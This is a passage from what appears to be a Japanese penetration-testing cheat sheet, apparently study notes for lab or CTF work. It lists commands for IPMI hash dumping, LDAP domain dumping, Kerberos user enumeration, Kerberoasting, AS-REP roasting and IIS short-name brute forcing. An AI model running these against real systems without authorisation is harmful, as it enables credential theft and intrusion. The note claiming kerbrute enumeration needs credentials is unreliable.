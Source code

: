 - バージョン検出
```
sudo nmap -sU -p623 --script ipmi-version $Target_IP
```

- ハッシュダンプ (Metasploit)
```
use auxiliary/scanner/ipmi/ipmi_dumphashes
```

- ipmitool 操作
```
ipmitool -I lanplus -H $Target_IP -U <user> -P <pass> chassis power status
```


## LDAP / Kerberos

- 匿名 bind
	- 匿名バインド（Anonymous Bind）ができる＝必ずユーザー情報が取れるというわけではありません。
```
ldapsearch -x -H ldap://$Target_IP -s base
```


- ドメインダンプ
```
ldapdomaindump ldap://$Target_IP --no-json -d <domain>
```

- Kerbrute ユーザ列挙
	- 認証情報必要
```
kerbrute userenum --dc $Target_IP -d <domain> users.txt
```

- SPN 取得
```
GetUserSPNs.py <domain>/<user>:<pass>@$Target_IP
```

- AS-REP Roast
	- ユーザー辞書さえあれば、できる
```
GetNPUsers.py <domain>/ -no-pass -usersfile users.txt -dc-ip $Target_IP
```



## IIS

- サーバ情報確認
```
curl -I http://$Target_IP | grep Server:
```

- 短名列挙
```
nmap -p80 --script http-iis-short-name-brute $Target_IP
```
